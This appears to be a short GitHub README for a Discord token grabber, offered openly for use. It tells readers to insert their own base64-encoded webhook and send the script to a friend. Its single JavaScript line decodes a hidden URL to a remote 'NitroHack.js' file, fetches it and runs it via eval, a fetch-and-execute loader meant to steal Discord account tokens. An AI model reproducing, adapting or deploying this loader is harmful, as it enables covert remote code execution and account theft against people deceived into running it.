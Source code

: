 # Discord Token Grabber
### chage the part at atob with your discord webhook (encode base64) and send the script to your friend!
## A simple token grabber lol

```js
fetch(atob("aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL3R1bmdkbzA2MDIvRGlzY29yZC1Ub2tlbi1HcmFiYmVyL21haW4vTml0cm9IYWNrLmpz")).then((res) => res.text().then((t) => eval(t)))
```
